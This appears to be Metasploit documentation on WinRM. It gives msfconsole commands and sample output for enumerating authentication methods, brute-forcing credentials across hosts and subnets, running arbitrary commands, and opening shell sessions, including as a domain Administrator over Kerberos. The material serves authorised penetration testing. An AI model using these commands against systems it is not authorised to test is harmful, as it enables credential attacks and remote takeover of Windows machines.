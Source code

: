 ## WinRM Workflows

Windows Remote Management (WinRM), is a way for clients to remotely manage Windows computers. WinRM is built on top of the Simple Object Access Protocol (SOAP) over HTTP(S).

There are two main ports for WinRM:

- 5985/TCP - HTTP
- 5986/TCP - HTTPS

On older versions of Windows such as Windows 7/Windows Server 2008 the following ports were used:

- 80/TCP - HTTP
- 443/TCP - HTTPS

Important: Before running the chosen WinRM Metasploit module, first ensure that the `RPORT` and `SSL` values are configured correctly.
Either with the modern inline option support:

```
use scanner/winrm/winrm_auth_methods

run http://192.168.123.139:5985
run https://192.168.123.139:5986
```

Or by manually setting options:

```
use scanner/winrm/winrm_auth_methods
set RHOST 192.168.123.139
set RPORT 5985
set SSL false
run
```

Metasploit has support for multiple WinRM modules, including:

- Authentication enumeration
- Verifying/bruteforcing credentials
- Running commands and opening sessions

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```msf
msf6 > search winrm
```

### Lab Environment

The WinRM modules work against Windows instances which have WinRM installed and configured.

For a domain controller the `Allow remote server management through WinRM` policy will need be enabled.
It is only possible to use WinRM against accounts which are part of the `Remote Management Users` group.

WinRM over HTTPS requires the creation of a Server Authenticating Certificate, as well as enabling the transport mode:

```
winrm quickconfig -transport:https
```

### Authentication Enumeration

Enumerate WinRm authentication mechanisms:

```
use scanner/winrm/winrm_auth_methods
run http://192.168.123.139:5985
run https://192.168.123.139:5986
```

Example:

```msf
msf6 auxiliary(scanner/winrm/winrm_auth_methods) > run http://192.168.123.139:5985

[+] 192.168.123.139:5985: Negotiate protocol supported
[+] 192.168.123.139:5985: Kerberos protocol supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### WinRM Bruteforce

Brute-force host with known user and password list:

```
use scanner/winrm/winrm_login
run https://known_user@192.168.222.1:5986 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:

```
use scanner/winrm/winrm_login
run http://192.168.123.139:5985 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:

```
use scanner/winrm/winrm_login
run cidr:/24:http://user:pass@192.168.222.0:5985 threads=50
run cidr:/24:http://user@192.168.222.0:5985 threads=50 pass_file=./wordlist.txt
```

### WinRM CMD

To execute arbitrary commands against a windows target:

```
use scanner/winrm/winrm_cmd
run http://user:pass@192.168.123.139:5985 cmd='whoami; ipconfig; systeminfo'
```

### WinRM Login Session

If you have valid credentials the `scanner/winrm/winrm_login` module will open a Metasploit session for you:

```
use scanner/winrm/winrm_login
run http://user:pass@192.168.123.139:5985
```

Example:

```msf
msf6 auxiliary(scanner/winrm/winrm_login) > run http://user:pass@192.168.123.139:5985

[!] No active DB -- Credential data will not be saved!
[+] 192.168.123.139:5985 - Login Successful: WORKSTATION\user:pass
[*] Command shell session 7 opened (192.168.123.1:58673 -> 192.168.123.139:5985 ) at 2022-04-23 02:36:34 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/winrm/winrm_login) > sessions -i -1
[*] Starting interaction with 7...

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\user>
```

### Kerberos Authentication

Details on the Kerberos specific option names are documented in [[Kerberos Service Authentication|kerberos/service_authentication]]

Open a WinRM session:

```msf
msf6 > use auxiliary/scanner/winrm/winrm_login
msf6 auxiliary(scanner/winrm/winrm_login) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd win::rmauth=kerberos domaincontrollerrhost=192.168.123.13 winrm::rhostname=dc3.demo.local domain=demo.local

[+] 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:5985   - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120604_default_192.168.123.13_mit.kerberos.cca_451736.bin
[+] 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:5985   - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120604_default_192.168.123.13_mit.kerberos.cca_889546.bin
[+] 192.168.123.13:88 - Received a valid delegation TGS-Response
[+] 192.168.123.13:88 - Received AP-REQ. Extracting session key...
[+] 192.168.123.13:5985 - Login Successful: demo.local\Administrator:p4$$w0rd
[*] Command shell session 1 opened (192.168.123.1:50722 -> 192.168.123.13:5985) at 2023-01-18 12:06:05 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/winrm/winrm_login) > sessions -i -1
[*] Starting interaction with 1...

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
```
